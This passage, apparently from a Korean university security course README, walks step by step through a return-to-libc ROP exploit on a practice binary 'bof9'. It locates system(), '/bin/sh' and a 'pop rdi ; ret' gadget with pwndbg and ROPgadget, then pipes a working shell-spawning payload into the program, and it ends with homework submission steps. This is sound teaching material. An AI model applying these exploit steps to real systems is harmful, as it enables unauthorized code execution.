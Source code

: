 2. `system` 함수의 주소값을 찾는다.
    
    ```shell
    pwndbg> p system
         $1 = ... 0x7ffff7a52390 <__libc_system>
    ```
3. `/bin/sh` 문자열의 주소값을 찾는다.

    ```shell
    pwndbg> search /bin/sh
         libc-2.23.so    0x7ffff7b99d57 /* '/bin/sh' */
    ```

4. `pop rdi ; ret` 가젯의 주소값을 찾는다.

    ```shell
    $ ldd bof9           # CHECK library used by bof9
    $ ROPgadget --binary /lib/x86_64-linux-gnu/libc.so.6 | grep "pop rdi ; ret"
         0x0000000000021102 : pop rdi ; ret

    pwndbg> vmmap
        0x7ffff7a0d000     0x7ffff7bcd000 r-xp   1c0000 0      /lib/x86_64-linux-gnu/libc-2.23.so
    pwndbg> p/x 0x0000000000021102 + 0x7ffff7a0d000
        $1 = 0x7ffff7a2e102
    ```

5. `payload` 를 다음과 같이 제작한다.

    `'A' * (버퍼와 리턴 어드레스까지의 거리)[N 바이트] + (pop rdi ; ret 가젯의 주소)[8 바이트] + (/bin/sh 문자열 주소)[8 바이트] + (system 함수의 주소)[8 바이트]`
    
    ```shell
    payload : [dummy (24)] + ["pop rdi ; ret" (8)] + ["/bin/sh" (8)] + [system (8)]
            $ (python -c "print 'x'*24+'\x02\xe1\xa2\xf7\xff\x7f\x00\x00'+'\x57\x9d\xb9\xf7\xff\x7f\x00\x00'+'\x90\x23\xa5\xf7\xff\x7f\x00\x00'";cat) | ./bof9
    ```

---

## 과제 

### 과제 가이드 

1. [HW-8.md](HW-8/readme.md) 파일의 지시를 따르는 것이 과제이다. (발표를 하며 설명을 할 수 있어야 합니다)

2. 과제 파일은 [HW-8](HW-8) 디렉토리에 만들어야 한다. 

3. 과제 파일이 완성되면 다음 명령어를 참고하여 완성된 과제를 푸쉬한다. 

```shell
cd /path/to/security
git add .
git commit -m "complete HW-8"
git push -u origin master
```

4. 마지막으로 `pull requests` 를 한다. 
